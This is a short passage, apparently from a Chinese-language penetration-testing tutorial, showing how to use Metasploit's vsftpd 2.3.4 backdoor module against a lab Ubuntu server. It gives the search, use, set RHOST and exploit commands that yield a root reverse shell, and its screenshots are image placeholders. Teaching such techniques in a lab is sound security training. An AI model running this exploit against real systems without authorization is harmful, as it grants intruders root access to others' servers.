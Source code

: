 ```
search vsftpd
```

这将列出具有特定关键字的利用列表。在这种情况下，只有一个利用：

![](img/e44c426b-3109-4681-bfd7-815f81bdd7a8.png)

我们可以通过运行以下命令来使用这个利用：

```
use exploit/unix/ftp/vsftpd_234_backdoor
```

这将更改提示符为利用的提示符。现在需要做的就是运行以下命令：

```
set RHOST <ip address of Ubuntu server>
```

以下是确认的显示：

![](img/bec749ad-29cb-4123-a329-3c6508c93b5d.png)

最后，只需运行`exploit`，`vsftpd exploit`将被执行，以提供具有`root`权限的交互式反向 shell：

![](img/a98aa71a-2885-43d3-b8a2-cb73442b6e4c.png)
